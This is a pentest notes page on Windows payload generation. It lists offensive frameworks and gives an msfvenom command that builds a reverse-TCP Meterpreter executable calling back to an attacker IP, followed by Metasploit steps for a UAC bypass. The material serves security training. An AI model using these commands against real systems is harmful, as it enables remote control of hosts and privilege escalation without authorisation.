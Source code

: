 ```yaml
---
title: Windows Payload Generation
tags: [download, upload, wget, curl]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
notes: "Various file transfer techniques for Windows/Active Directory"
---
```


# Windows Payloads

## Payload Generation

We have plenty of good options for dealing with generating payloads  to use against Windows hosts. We touched on some of these already in  previous sections. For example, the Metasploit-Framework and MSFVenom is a very handy way to generate payloads since it is OS agnostic. The  table below lays out some of our options. However, this is not an  exhaustive list, and new resources come out daily.

| **Resource**                      | **Description**                                              |
| --------------------------------- | ------------------------------------------------------------ |
| `MSFVenom & Metasploit-Framework` | [Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It  serves as a way to enumerate hosts, generate payloads, utilize public  and custom exploits, and perform post-exploitation actions once on the  host. Think of it as a swiss-army knife. |
| `Payloads All The Things `        | [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology. |
| `Mythic C2 Framework`             | [Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a  Command and Control Framework and toolbox for unique payload generation. |
| `Nishang`                         | [Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and  scripts. It includes many utilities that can be useful to any pentester. |
| `Darkarmour`                      | [Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts. |

## [MSVENOM](../Exploitation/msvenom.md) 

**Common**

## Example: Generating a Windows Meterpreter Payload

A common approach is to use `windows/meterpreter/reverse_tcp` payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe
```

This command generates an executable that, when run on the target system,  establishes a reverse connection to the attacker’s machine.

## Bypassing UAC for Privilege Escalation

Once a foothold is gained, attackers can attempt to bypass User Account Control (UAC):

```
use exploit/windows/local/bypassuac
set SESSION <SESSION_ID>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

